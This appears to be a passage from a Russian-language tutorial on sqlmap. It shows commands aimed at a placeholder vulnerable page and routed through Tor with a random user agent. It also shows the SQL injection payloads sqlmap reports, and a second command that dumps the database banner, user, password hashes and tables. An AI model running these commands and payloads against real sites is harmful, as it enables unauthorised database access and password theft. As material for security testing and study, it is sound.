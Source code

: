  
Сценарий № 1
Условимся, что мы хотим проэксплуатировать уязвимость, которая была найдена в GET-параметре "id" веб-страницы, расположенной по адресу http://www.site.com/vuln.php?id=1 (для указания URL будет ключ -u). Чтобы снизить подозрительную активность, мы будем маскироваться под обычный браузер (ключ --random-agent), а для подключения использовать защищенный канал TOR-сети (--tor). Итак, запускаем sqlmap:

$ python sqlmap.py -u "http://www.site.com/vuln.php?id=1" --random-agent --tor
sqlmap/1.0-dev (r4365) — automatic SQL injection and database takeover tool

Сканер определит несколько точек для выполнения инъекций в 17 HTTP(S)-запросах. Обрати внимание, что для каждой из них указывается тип, а также пэйлоад.

Place: GET
Parameter: id
Type: boolean-based blind
Title: AND boolean-based blind — WHERE or HAVING clause
Payload: id=1 AND 1826=1826

Type: error-based
Title: MySQL >= 5.0 AND error-based — WHERE or HAVING clause
Payload: id=1 AND (SELECT 8532 FROM(SELECT COUNT(),CONCAT(CHAR(58,98,116,120,58), (SELECT (CASE WHEN (8532=8532) THEN 1 ELSE 0 END)),CHAR(58,98,121,102,58),FLOOR(RAND(0)2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

Type: UNION query
Title: MySQL UNION query (NULL) — 3 columns
Payload: id=1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,98,116,120,58), IFNULL(CAST(CHAR(74,76,73,112,111,113,103,118,80,84) AS CHAR),CHAR(32)),CHAR(58,98,121,102,58))

Type: AND/OR time-based blind
Title: MySQL > 5.0.11 AND time-based blind
Payload: id=1 AND SLEEP(10)

Помимо этого, сканер выполнит распознавание базы данных, а также других технологий, использованных веб-приложением:

[02:01:45] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL 5.0

В конце концов полученные данные будут записаны в определенный файл:

[02:01:45] [INFO] Fetched data logged to text fi les under '/opt/sqlmap/output/www.site.com'

 
Сценарий № 2
Теперь следующий пример. Предположим, что мы хотим устроить более детальный fingerprinting (-f) и получить текстовый баннер (--banner) системы управления базой данных, включая ее официальное название, номер версии, а также текущего пользователя (--current-user). Кроме того, нас будут интересовать сохраненные пароли (--passwords) вместе с именами таблиц (--tables), но не включая системные, (--exclude-sysdbs) — для всех содержащихся в СУБД баз данных. Нет проблем, запускаем сканер:

$ python sqlmap.py -u "http://www.site.com/vuln.php?id=1" --random-agent --tor -f --banner --current-user --passwords --tables --exclude-sysdbs

Очень скоро мы получим все данные об используемых технологиях, которые запрашивали:
